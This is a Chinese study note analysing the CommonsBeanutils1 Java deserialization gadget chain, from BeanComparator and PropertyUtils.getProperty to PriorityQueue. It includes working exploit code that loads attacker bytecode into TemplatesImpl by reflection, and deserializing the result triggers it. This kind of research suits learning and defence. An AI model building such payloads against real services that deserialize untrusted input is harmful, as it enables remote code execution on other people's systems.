 # CommonsBeanutils1分析

## 1.环境搭建

```xml
<dependency>
    <groupId>commons-beanutils</groupId>
    <artifactId>commons-beanutils</artifactId>
    <version>1.9.2</version>
</dependency>
```

## 2.漏洞分析

在CC2的反序列化分析中，利用到`commons-collections4`中的一些类，当引入`commons-beanutils`依赖后，可以对该链子进行一些改造。

在cb依赖中，存在一个`BeanComparator`类，其`compare(...)`代码如下：

![image-20240418153959558](img/image-20240418153959558.png)

利用`PropertyUtils.getProperty(...)`可以在指定类中获取getter。

通过`PriorityQueue`触发反序列化调用`BeanComparator#compare(...)`然后通过`PropertyUtils.getProperty(...)`调用getter。根据这个利用思路，构造exp如下：

```java
  TemplatesImpl templates = new TemplatesImpl();
  Class<?> clazz = templates.getClass();

  Field bytecodes = clazz.getDeclaredField("_bytecodes");
  bytecodes.setAccessible(true);
  byte[][] code = {Files.readAllBytes(Paths.get("/Users/me7eorite/Documents/GitHub/Learning-Demo/JavaStudy/target/classes/Exp.class"))};
  bytecodes.set(templates,code);

  Field name = clazz.getDeclaredField("_name");
  name.setAccessible(true);
  name.set(templates,"Learning");

  Field tFactory = clazz.getDeclaredField("_tfactory");
  tFactory.setAccessible(true);
  tFactory.set(templates,new TransformerFactoryImpl());
//==========================================================================================================

  PriorityQueue<Object> queue = new PriorityQueue<>();
  queue.add(1);
  queue.add(2);

  Field field = PriorityQueue.class.getDeclaredField("queue");
  field.setAccessible(true);
  Object[] objects = (Object[]) field.get(queue);
  objects[0] = templates;

  BeanComparator comparator = new BeanComparator("outputProperties");

  Field field2 = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
  field2.setAccessible(true);
  field2.set(queue, comparator);


  unSerialize(serialize(queue));
```

## 3.反序列化利用链图

![image-20240417223109002](img/image-20240417223109002.png)
